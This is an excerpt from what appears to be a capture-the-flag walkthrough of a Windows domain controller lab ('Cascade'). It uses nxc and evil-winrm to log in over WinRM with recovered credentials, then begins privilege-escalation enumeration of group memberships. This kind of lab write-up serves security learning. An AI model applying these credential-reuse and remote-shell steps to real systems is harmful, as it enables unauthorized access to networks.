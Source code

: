 Confirming that we are able to log in on winrm

````bash
nxc winrm 10.10.10.182 -u 's.smith' -p 'sT333ve2'
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
````

````powershell
❯ evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'

*Evil-WinRM* PS C:\Users\s.smith\Desktop> ls


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/29/2025   6:08 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk
````

# PRIVILEGE ESCALATION
---

While enumerating the groups of the new user, I noticed that they belong to **Audit Share**, which we had previously enumerated with **crackmapexec**.

````powershell
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami -groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
````